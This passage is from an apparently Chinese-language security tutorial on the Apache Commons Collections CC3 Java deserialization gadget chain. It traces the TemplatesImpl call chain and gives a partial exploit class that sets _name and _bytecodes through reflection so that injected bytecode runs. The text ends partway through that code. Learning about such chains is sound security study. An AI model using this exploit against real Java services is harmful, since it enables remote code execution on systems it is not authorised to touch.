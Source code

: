 [![](assets/1701612311-5237d53f10f168aeddf3ecb75342b655.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235306-31423bf6-20cc-1.png)

然后我们就找到了这个public类：

[![](assets/1701612311-deaff55d55712a4d94aae68858d18883.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235310-33a027be-20cc-1.png)

所以这里我们来梳理一下调用链：

```plain
Templateslmpl.newTransformer - > getTransletInstance - > defineClass - > newInstance()

又因为TemlpatesImpl调用了序列化接口，所以里面的属性值我们都能够进行控制，直接通过反射来进行赋值
TemplatesImpl templates = new TemplatesImpl();
templates.newTransformer();
```

### EXP问题：

#### 问题一：

对必要的值赋完以后的代码EXP是这样：但发生了空指针的报错：

```plain
package EXP;

import com.sun.org.apache.xalan.internal.utils.ObjectFactory;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.AccessController;
import java.security.PrivilegedAction;
import java.util.HashMap;
import java.util.Map;

public class CC3Test {
    public static void main(String[] args) throws Exception{

    TemplatesImpl templates = new TemplatesImpl();
    //_name赋值，否则代码return中止
    Class tc = templates.getClass();
    Field nameField = tc.getDeclaredField("_name");
    nameField.setAccessible(true);
    nameField.set(templates,"aaa");
    //private byte[][] _bytecodes = null;如果为null，报出异常；
    //同时满足这个loader.defineClass(_bytecodes[i]);
    //Class defineClass(final byte[] b) {
    //            return defineClass(null, b, 0, b.length);
    //        }
    Field bytecodeField = tc.getDeclaredField("_bytecodes");
    bytecodeField.setAccessible(true);
    //一维数组满足defineClass参数从而命令执行
```